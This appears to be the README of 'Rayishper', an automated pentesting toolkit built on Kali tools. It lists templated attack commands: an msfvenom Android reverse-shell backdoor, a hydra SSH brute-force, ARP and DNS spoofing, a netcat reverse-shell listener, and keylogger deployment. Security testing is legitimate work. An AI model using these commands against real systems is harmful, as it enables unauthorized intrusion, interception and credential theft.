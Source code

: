 Rayishper Pentesting Toolkit
Rayishper is a customizable and automated toolkit designed for cybersecurity enthusiasts and professionals. Originally inspired by manual note-taking on cybersecurity tasks, Rayishper automates a variety of common pentesting activities to streamline your workflow.

Table of Contents
Introduction
Features
Installation
Dependencies
Usage
Commands Overview
License
Introduction
Rayishper started as a simple note-taking practice to assist with various cybersecurity tasks. It has now evolved into an automated toolkit that can perform a wide range of pentesting activities such as password cracking, network sniffing, social engineering, and more.

Features
Password Cracking: Automate brute-force attacks using tools like John the Ripper and aircrack-ng.
Network Attacks: Perform ARP spoofing, DNS spoofing, port scanning, and packet sniffing.
Payload Generation: Create custom payloads for Android devices using Metasploit.
Social Engineering: Launch social engineering attacks using the SET toolkit.
File and Directory Management: Automate common file and directory operations like viewing, deleting, and scanning.
Script Automation: Convert repetitive manual tasks into automated scripts.
Installation
Clone the Rayishper repository:

bash
Copy code
git clone https://github.com/your-repo/rayishper.git
cd rayishper
Make the script executable:

bash
Copy code
chmod +x rayishper.py
Install the required dependencies:

bash
Copy code
sudo apt-get update
sudo apt-get install python3 python3-pip metasploit-framework nmap hydra tcpdump aircrack-ng john setoolkit
Ensure that all tools used in the script are correctly installed and accessible in your PATH.

Dependencies
The Rayishper script relies on the following tools and libraries:

Python 3: The core programming language used in the script.
Metasploit Framework: For payload generation, reverse shell listeners, and exploitation.
nmap: For network scanning and discovery.
Hydra: For brute-forcing SSH logins.
Tcpdump: For packet sniffing and network analysis.
Aircrack-ng: For wireless network cracking.
John the Ripper: For password cracking.
Social Engineering Toolkit (SET): For social engineering attacks.
Ensure that Kali Linux is your base operating system as it includes most of these tools pre-installed.

Usage
To run Rayishper:

bash
Copy code
./rayishper.py
Main Menu
When you start the script, you'll be prompted with the following options:

Hello Neo, what's the magic word?: Type "red pill" to access the main menu.
Main Menu Options: Choose from various pentesting actions such as deploying keyloggers, scanning networks, or generating payloads.
Commands Overview
Below is a summary of the main commands used within Rayishper:

VF685 Hack
Description: Automate hacking a specific VF685 target.
Command: python3 VF685.py
Keylogger Deployment
Description: Start a keylogger that logs keystrokes to a file.
Command: python3 keylog.py
Payload Creation
Description: Generate a custom Android payload using Metasploit.
Command: msfvenom -p android/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} R> {location}/{Backdoor_name}
SSH Brute-Force
Description: Perform a brute-force attack on SSH login.
Command: hydra -l {username} -P {wordlist} ssh://{target_ip}
Network Scanning
Description: Scan a target IP for open ports and services.
Command: nmap -sV {target_ip}
ARP Spoofing
Description: Perform ARP spoofing to intercept traffic.
Command: sudo arpspoof -i eth0 -t {target_ip} -r {gateway_ip}
Reverse Shell Listener
Description: Start a netcat listener for reverse shells.
Command: nc -lvnp {lport}
DNS Spoofing
Description: Spoof DNS responses on a network.
Command: sudo dnsspoof
License
This project is open-source and available under the MIT License.